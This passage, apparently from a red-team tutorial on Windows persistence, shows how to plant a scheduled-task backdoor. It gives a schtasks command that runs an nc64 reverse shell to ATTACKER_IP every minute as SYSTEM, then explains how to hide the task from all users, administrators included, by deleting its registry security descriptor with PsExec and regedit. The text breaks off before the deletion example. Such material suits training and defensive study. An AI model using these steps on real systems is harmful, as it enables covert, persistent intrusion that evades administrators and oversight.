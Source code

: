 
## 4. Abusing Scheduled Tasks

There are several ways to schedule the execution of a payload in Windows systems. Let's look at some of them:

### 4.1 Task Scheduler

```Command Prompt
schtasks /create /sc minute /mo 1 /tn TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe ATTACKER_IP 4449" /ru SYSTEM
```

The previous command will create a `TaskBackdoor` task and execute an `nc64` reverse shell back to the attacker. The `/sc` and `/mo` options indicate that the task should be run every single minute. The `/ru` option indicates that the task will run with SYSTEM privileges

To check if our task was successfully created, we can use the following command:

```Command Prompt
C:\> schtasks /query /tn taskbackdoor

Folder: \
TaskName                                 Next Run Time          Status
======================================== ====================== ===============
taskbackdoor                             8/19/2025 12:00:00 PM  Ready
```

### 4.2 Making Our Task Invisible

Our task should be up and running by now, but if the compromised user tries to list its scheduled tasks, our backdoor will be noticeable. To further hide our scheduled task, we can make it invisible to any user in the system by deleting its **Security Descriptor (SD)**. The security descriptor is simply an ACL that states which users have access to the scheduled task. If your user isn't allowed to query a scheduled task, you won't be able to see it anymore, as Windows only shows you the tasks that you have permission to use. Deleting the SD is equivalent to disallowing all users' access to the scheduled task, including administrators.

The security descriptors of all scheduled tasks are stored in `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\`. You will find a registry key for every task, under which a value named "SD" contains the security descriptor. You can only erase the value if you hold SYSTEM privileges.

To hide our task, let's delete the SD value for the "TaskBackdoor" task we created before. To do so, we will use `psexec` (available in `C:\tools`) to open Regedit with SYSTEM privileges:

```Command Prompt
c:\tools\pstools\PsExec64.exe -s -i regedit
```

We will then delete the security descriptor for our task as shown in an example:
